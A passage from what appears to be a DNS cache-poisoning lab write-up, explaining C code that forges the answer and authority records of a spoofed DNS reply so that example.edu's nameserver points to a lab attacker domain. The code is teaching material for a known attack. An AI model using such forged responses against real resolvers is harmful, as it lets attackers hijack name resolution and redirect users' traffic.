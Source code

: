 Compared with the previous one, the answer record contains more data fields, i.e. the 4 bytes TTL, 2 bytes data length, and 4 bytes ip address. A function `inet_addr` was used there for us to convert string into unsigned int. 

```c
    // 2. ANSWER RECORD
    // NAME(char*) | dataEnd(two short: 4bytes) | TTL(unsigned int: 4bytes) |
    // data length(short: 2bytes) | resp_ip(unsigned int: 4bytes)
    char* an_head = (resp_data + qd_len);
    int an_len = 0; 
    // 2.1 NAME(char*)
    char* an_name = an_head; 
    strcpy(an_name, "\5aaaaa\7example\3edu");
    an_len += (strlen(an_name) + 1);
    // 2.2 dataEnd(two short int)
    struct dataEnd* an_end = (struct dataEnd*) (an_head+an_len);
    an_end->type = htons(1);
    an_end->class = htons(1);
    an_len += sizeof(struct dataEnd);
    // 2.3 TTL(unsigned int: 4bytes)
    unsigned int* an_ttl = (unsigned int*) (an_head+an_len);
    *an_ttl = htonl(0x00002000); // Use htonl which is for 4bytes int
    an_len += sizeof(unsigned int);
    // 2.4 data length(unsigned short: 2bytes)
    unsigned short* an_data_len = (unsigned short*) (an_head+an_len);
    *an_data_len =  htons(0x0004);
    an_len += sizeof(unsigned short);
    // 2.5 resp_ip(unsigned int: 4bytes)
    unsigned int* an_resp_ip = (unsigned int*) (an_head+an_len);
    *an_resp_ip = inet_addr("1.2.3.4");
    an_len += sizeof(unsigned int);
```

In there, we built the authority record by the previous example captured by Wireshark. 

```c
    // 3. AUTHORITY RECORD
    // NAME(char*) | dataEnd(two short: 4bytes) | TTL(unsigned int: 4bytes) |
    // data length(short: 2bytes) | Data(char*)
    char* au_head = (an_head + an_len);
    int au_len = 0; 
    // 3.1 NAME(char*)
    char* au_name = au_head;
    strcpy(au_name, "\7example\3edu");
    au_len += (strlen(au_name) + 1);
    // 3.2 dataEnd(two short: 4bytes)
    struct dataEnd *au_end = (struct dataEnd*) (au_head+au_len);
    au_end->type = htons(0x0002); //NS Record
    au_end->class = htons(0x0001);
    au_len += sizeof(struct dataEnd);
    // 3.3 TTL(unsigned int: 4bytes)
    unsigned int *au_ttl = (unsigned int*) (au_head+au_len);
    *au_ttl = htonl(0x00002000); 
    au_len += sizeof(unsigned int);
    // 3.4 data length(short: 2bytes)
    unsigned short *au_data_len = (unsigned short*) (au_head+au_len);
    *au_data_len = htons(0x0017); // 0x0017 = 23: length of the url below
    au_len += sizeof(unsigned short);
    // 3.5 Data(char*)
    char* au_data = (au_head+au_len);
    strcpy(au_data, "\2ns\16dnslabattacker\3com");
    au_len += (strlen(au_data) + 1);
    unsigned short int resp_len = qd_len + an_len + au_len;
```
